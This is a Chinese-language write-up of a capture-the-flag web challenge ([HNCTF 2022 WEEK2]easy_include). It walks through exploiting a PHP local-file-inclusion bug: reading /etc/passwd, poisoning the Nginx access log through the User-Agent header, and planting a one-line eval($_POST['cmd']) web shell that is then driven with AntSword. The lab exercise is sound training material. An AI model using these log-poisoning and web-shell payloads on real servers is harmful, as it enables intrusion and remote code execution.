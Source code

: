 ## 基本信息

- 题目名称： [HNCTF 2022 WEEK2]easy_include
- 题目链接： https://www.nssctf.cn/problem/2948
- 考点清单： 文件包含，Nginx日志，LFI
- 工具清单： Yakit，蚁剑
- payloads： 一句话木马，LFI本地文件包含

## 一、看到什么

```php
<?php
//WEB手要懂得搜索
 
if(isset($_GET['file'])){
    $file = $_GET['file'];
    if(preg_match("/php|flag|data|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=/i", $file)){
        die("error");
    }
    include($file);
}else{
    highlight_file(__FILE__);
} 
```

1. 网页显示了一段PHP代码，通过GET参数file实现文件包含功能，但存在过滤规则：
    - 禁止包含php、flag、data等关键字
    - 过滤特殊符号（如~、!、@、$等）

2. 代码注释提示"WEB手要懂得搜索"，暗示需通过信息收集或已知漏洞利用解题。

## 二、想到什么解题思路

1. php的`include`函数未对用户输入做严格校验，可能通过路径遍历（如`/etc/passwd`）读取敏感文件
2. 仔细查看返回的响应信息，观察是否有其他的信息泄露

## 三、尝试过程和结果记录

1. 使用Yakit中的Web Fuzzer对抓取的包进行重放，发送`GET /?file=/etc/passwd`测试LFI漏洞：
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-passwd.jpg>)

    响应头显示服务器环境为 **`nginx/1.18.0` + `PHP/7.3.22`**。结合题目提示"WEB手要懂得搜索"，需关注 **LFI漏洞利用技巧**。

    > **漏洞本质**：  
    > 该漏洞是PHP的`include`函数未过滤用户输入导致的 **本地文件包含（LFI）**，通过污染Nginx日志实现RCE（参考：[Apache日志污染利用原理](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/)）。与Nginx自身无关，PHP应用层代码缺陷是根源。

2. 尝试包含Nginx访问日志验证可行性：
    ```http
    GET /?file=/var/log/nginx/access.log
    ```
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-access_log.jpg>)

    日志显示用户访问记录，但未包含敏感信息。需通过 **日志污染** 注入PHP代码。

3. 通过`User-Agent`字段注入PHP代码：
    ```http
    GET / HTTP/1.1
    User-Agent: <?php phpinfo(); ?>
    ```
    再次包含日志文件触发代码执行：
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-phpinfo.jpg>)

    > **关键原理**：  
    > PHP的`include`函数会解析被包含文件中的PHP代码，**日志文件本身无执行能力**，代码执行依赖PHP的文件包含机制。

4. 写入一句话木马并连接蚁剑：
    ```http
    User-Agent: <?php eval($_POST['cmd']);?>
    ```
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-eval.jpg>)  
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-antsword.jpg>)

5. 在根目录获取Flag：
    ![alt text](<images/[HNCTF 2022 WEEK2]easy_include-flag.jpg>)

## 四、总结与反思

- 响应头信息（如`Server`、`X-Powered-By`）可辅助判断服务器环境，缩小攻击面。  
- 特殊场景下，"伪漏洞"（如日志解析）需结合应用层特性突破，日志路径需结合服务器类型推测（如Nginx默认`/var/log/nginx/access.log`）